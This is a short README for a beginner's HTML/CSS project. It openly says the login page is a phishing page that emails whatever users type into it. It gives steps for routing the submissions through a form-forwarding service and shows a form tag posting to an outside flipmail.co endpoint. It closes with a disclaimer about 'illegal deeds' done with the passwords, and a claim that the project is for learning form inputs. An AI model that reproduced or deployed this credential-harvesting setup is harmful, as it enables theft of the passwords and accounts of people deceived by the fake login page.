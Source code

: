 # html-and-CSS
Intial web development projects using html and CSS<br>
This is my first project in html using CSS.<br>
Feel free to make to changes in my code.<br>
# UPDATE
* Now the input fields accept submissions.
* The login page is a phishing page,it sends the data to email.
* To get responses on your email,do the following:
* go to flipmail.com and enter your email to get a link.
* copy that link and edit the following line of code in index.html<br>
``` <form method="POST" action="http://flipmail.co/api/6PTILki4KnRoNyG4U2rg"> ```
* paste your flipmail link in action field and it will start sending responses to your email address.
* I am not responsible for any illegal deeds done by you after getting password through this phishing page.
* I created this for the purpose of learning form inputs.
